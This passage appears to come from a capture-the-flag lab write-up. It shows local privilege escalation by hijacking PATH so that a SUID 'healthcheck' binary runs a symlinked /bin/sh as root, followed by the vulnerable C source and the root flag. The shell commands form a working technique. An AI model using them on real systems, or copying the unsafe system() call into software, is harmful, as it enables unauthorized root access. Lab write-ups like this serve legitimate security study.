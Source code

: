 ### SUID Binary

I moved to the shm directory, created a symbolic link to the /bin/sh binary with the name of the clear command, exported the /dev/shm directory to the PATH environment variable, and finally ran the healthcheck binary, giving me a root shell.

```console
bash-4.1$ cd /dev/shm
bash-4.1$ ln -s /bin/sh clear
ln -s /bin/sh clear
bash-4.1$ export PATH=/dev/shm:$PATH
export PATH=/dev/shm:$PATH
bash-4.1$ echo $PATH
echo $PATH
/dev/shm:/sbin:/usr/sbin:/bin:/usr/bin
bash-4.1$ /usr/bin/healthcheck
/usr/bin/healthcheck
gpg-agent[12879]: error creating `/.gnupg/gpg-agent-info': No such file or directory
[root@localhost shm]# id
id
uid=0(root) gid=0(root) groups=0(root),416(apache)
[root@localhost shm]# cd /root                                                 
cd /root
[root@localhost root]# ls                                                      
ls
Desktop/    drakx/        healthcheck.c  sudo.rpm
Documents/  healthcheck*  root.txt       tmp/
```

Below you can see the vulnerable healthcheck.c script, and the root flag.

```console
[root@localhost root]# cat healthcheck.c                                       
cat healthcheck.c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h");
}
```

```console
[root@localhost root]# cat root.txt                                            
cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          
                                                                                                                          
Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b

```


